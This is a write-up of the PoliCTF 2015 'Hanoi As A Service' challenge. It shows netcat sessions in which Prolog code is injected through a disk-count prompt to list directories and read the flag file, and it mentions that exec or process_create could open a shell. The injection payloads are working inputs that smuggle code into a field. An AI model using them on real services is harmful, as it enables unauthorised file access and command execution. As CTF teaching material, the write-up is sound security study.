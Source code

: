```yaml
---
layout: post
title: "Hanoi As A Service, Pwnable 50"
date: 2015-07-12
ctf: PoliCTF 2015
author: Abstract
---
```


One of the easiest challenges of PoliCTF 2015 and the first we solved. The challenge's description pointed us to "haas.polictf.it 80". Netcating in we found a Tower of Hanoi server:

{% highlight php %}
host$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
3
* Move top disk from a to b
* Move top disk from a to c
* Move top disk from b to c
* Move top disk from a to b
* Move top disk from c to a
* Move top disk from c to b
* Move top disk from a to b
{% endhighlight %}


Can we get an error? Let's try '-1':

{% highlight php %}
host$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
-1
ERROR: Prolog initialisation failed:
ERROR: Out of local stack
{% endhighlight %}

Ah! Prolog, I knew there was a point to studying it back in college. Can we inject some code?

{% highlight php %}
host:john-pastry-shop tpc$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
1),write('hello world'
* Move top disk from a to b
hello world
{% endhighlight %}

So we can inject commands.  Next we googled for any and all Prolog commands that might be useful. '1),listing,write(\'hello\'' displays the entire prolog database, but there is nothing really useful there. Instead we can have a look at the files using: '1),directory_files({dir},X),write(X', until we find the flag:

{% highlight php %}
host$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
1),directory_files('home/ctf/haas',X),write(X
* Move top disk from a to b
[haas-proxy.py,..,jhknsjdfhef_flag_here,haas,.]
{% endhighlight %}

Now we know were the flag is we can print off the ascii: 

{% highlight php %}
host:john-pastry-shop tpc$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
1),open('/home/ctf/haas/jhknsjdfhef_flag_here',read,Str),read_line_to_codes(Str,X),write(X
* Move top disk from a to b
[102,108,97,103,123,80,114,48,103,114,97,109,109,49,110,103,95,105,110,95,108,48,103,49,99,95,49,115,95,99,48,48,108,125]
{% endhighlight %}

which [https://paulschou.com/tools/xlate/](https://paulschou.com/tools/xlate/) tells us encodes: 'flag{Pr0gramm1ng_in_l0g1c_1s_c00l}'.

Executing shell commands or even opening a shell would have been possible with Prologs 'exec' or 'process_create' commands, but that seemed like overkill in this situation.


